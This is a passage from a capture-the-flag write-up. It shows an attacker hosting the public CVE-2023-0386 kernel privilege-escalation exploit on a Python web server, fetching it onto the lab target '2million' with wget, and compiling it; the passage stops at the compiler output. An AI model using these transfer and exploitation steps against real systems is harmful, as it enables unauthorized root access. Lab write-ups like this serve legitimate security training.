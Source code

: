 #### Transferring Exploit: HOST

```console
toasty@parrot$ wget -q https://github.com/xkaneiki/CVE-2023-0386/archive/refs/heads/main.zip
toasty@parrot$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.221 - - [18/Aug/2023 21:48:33] "GET /main.zip HTTP/1.1" 200 -

```

#### Receiving Exploit: TARGET

```console
admin@2million:~$ wget http://10.10.14.231/main.zip

main.zip            100%[===================>]  11.31K  --.-KB/s    in 0s      

2023-08-18 20:48:32 (75.7 MB/s) - ‘main.zip’ saved [11578/11578]
```

### Running Exploit

Now to follow the directions from the github, we will need two separate sessions SSH'd into the machine.

#### First Machine

We first need to unzip and then run `make all` to compile the code:

```console
admin@2million:~$ unzip main.zip
admin@2million:~$ cd CVE-2023-0386-main/
admin@2million:~/CVE-2023-0386-main$ make all
gcc fuse.c -o fuse -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl
fuse.c: In function ‘read_buf_callback’:
fuse.c:106:21: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘off_t’ {aka ‘long int’} [-Wformat=]
  106 |     printf("offset %d\n", off);
      |                    ~^     ~~~
      |                     |     |
      |                     int   off_t {aka long int}
      |                    %ld
fuse.c:107:19: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘size_t’ {aka ‘long unsigned int’} [-Wformat=]
  107 |     printf("size %d\n", size);
      |                  ~^     ~~~~
      |                   |     |
      |                   int   size_t {aka long unsigned int}
      |                  %ld
fuse.c: In function ‘main’:
fuse.c:214:12: warning: implicit declaration of function ‘read’; did you mean ‘fread’? [-Wimplicit-function-declaration]
  214 |     while (read(fd, content + clen, 1) > 0)
      |            ^~~~
      |            fread
fuse.c:216:5: warning: implicit declaration of function ‘close’; did you mean ‘pclose’? [-Wimplicit-function-declaration]
  216 |     close(fd);
      |     ^~~~~
      |     pclose
fuse.c:221:5: warning: implicit declaration of function ‘rmdir’ [-Wimplicit-function-declaration]
  221 |     rmdir(mount_path);
      |     ^~~~~
/usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/11/../../../x86_64-linux-gnu/libfuse.a(fuse.o): in function `fuse_new_common':
```